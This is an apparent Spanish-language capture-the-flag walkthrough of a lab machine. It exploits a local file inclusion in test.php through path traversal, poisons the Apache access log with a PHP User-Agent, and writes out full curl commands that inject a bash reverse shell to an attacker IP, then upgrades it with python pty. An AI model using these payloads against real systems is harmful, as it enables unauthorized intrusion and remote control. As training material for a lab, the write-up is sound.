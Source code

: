 

Podemos ver la pagina tal cual poniendo la IP que nos dan, podemos ver que hay una dirección de correo, después de investigar por código fuente, intentar sacar directorios ocultos con **[[GOBUSTER]]** sin éxito.


![image](https://github.com/user-attachments/assets/530d9197-ea30-49b6-bcd7-aedf8d57593b)


Después de ver un correo en la pagina web (amarillo), cogeremos e iremos a la ruta`` /etc/hosts`` para hacer redireccionamiento DNS, por si nos devuelve otra información.

![[Pasted image 20240606184701.png]]

Pondremos primero la IP de la maquina y después el dominio para enlazar ip con dominio si no hacemos esto nos dará un fallo.

Despues de hacerlo, podemos ver que nos funciona, 

![[Pasted image 20240606184733.png]]

Tenemos la primera flag, aqui espezaremos a descubrir nuevos directorios.


Podemos ver que nos saca un archivo ``/test.php`` 

![[Pasted image 20240606185447.png]]

Podemos ver que es un LFI, ahora habra que explotarlo..

![[Pasted image 20240606190046.png]]


Si intentamos hacer un Path Traversal desde view=/.. esta capado y no nos deja pero si lo hacemos quitando el php funcionara

![[Pasted image 20240613233524.png]]

Siempre que sea haciendo .././.././.././.././ ya que de la otra forma esta capado 

``CTRL + U`` 

![[Pasted image 20240613233616.png]]

Ahora que tenemos acceso a /var/log/apache2/access.log podremos lanzar la vulnerabilidad llamada **log poisoning** a través de un curl y un codigo php

![[Pasted image 20240614000021.png]]

Vemos que nos devuelve la solicitud y después vamos al ``access.log`` y vemos la respuesta del comando ``whoami`` 

Actualizamos y vemos :

![[Pasted image 20240614000136.png]]
``
10.10.39.71 - - [14/Jun/2024:03:27:58 +0530] "GET /test.php?view=/var/www/html/development_testing/.././.././.././.././.././.././.././var/log/apache2/access.log HTTP/1.1" 200 12191 "-" "``www-data````


También valdría con este comando :

![[Pasted image 20240614000617.png]]
curl -s -X GET 'http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././var/log/apache2/access.log' -H "User-Agent: <?php system ('whoami'); ?>"

Después ejecutaremos la reverse shell ya que tenemos ejecución de comandos a través del User-Agent

Primero pondremos la terminar nuestra en escucha por el puerto que queramos, en este caso el 443 ya que es mas fácil que el firewall lo permita y uno que no este ocupado

![[Pasted image 20240618232248.png]]

Después de estar en escucha, iremos a https://www.revshells.com/ y buscaremos una revershell en este caso cogemos la de bash

``sh -i >& /dev/tcp/10.10.252.109/443 0>&1``


Ejecutamos el comando donde nos deja hacer la ejecución de comandos:

>curl -s -X GET 'http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././var/log/apache2/access.log' -H "User-Agent: <?php system ('sh -i >& /dev/tcp/10.10.62.176/443 0>&1'); ?>"

(Tenemos que poner la IP atacante)
Actualizamos la pagina y se supone que ya tiene que haberse creado la shell inversa, ya estaremos dentro de la maquina 

![[Pasted image 20240618232332.png]]


Despues tendremos que hacer la consola interactiva, con python3 podremos ponerla:

![[Pasted image 20240618232755.png]]

> python3 -c 'import pty; pty.spawn("/bin/bash")'



Podemos ver que ya es interactiva, en cambio antes no

![[Pasted image 20240618232707.png]]

![[Pasted image 20240619001214.png]]


![[Pasted image 20240619001151.png]]




![[Pasted image 20240619001436.png]]


![[Pasted image 20240619001527.png]]


![[Pasted image 20240619001558.png]]

![[Pasted image 20240619001623.png]]

![[Pasted image 20240619001710.png]]


PATH HAJACKING
